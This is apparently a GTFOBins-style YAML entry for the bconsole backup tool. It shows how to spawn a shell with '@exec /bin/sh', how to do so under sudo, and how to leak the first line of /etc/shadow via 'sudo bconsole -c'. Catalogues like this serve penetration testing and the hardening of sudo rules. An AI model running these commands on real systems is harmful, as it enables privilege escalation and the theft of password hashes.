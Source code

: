 ```yaml
---
description: backup application
functions:
  shell:
    - description: The @exec function allows you to execute commands in the local tty
      code: | 
        bconsole
        @exec /bin/sh
  sudo:
    - description: The @exec function allows you to execute commands in the local tty
      code: | 
        sudo bconsole
        @exec /bin/sh    
  file-read:
    - description: The error message of the -c options displays the first line of a restricted file, when having sudo rights for the binary.
      code: | 
        sudo bconsole -c /etc/shadow
---
```


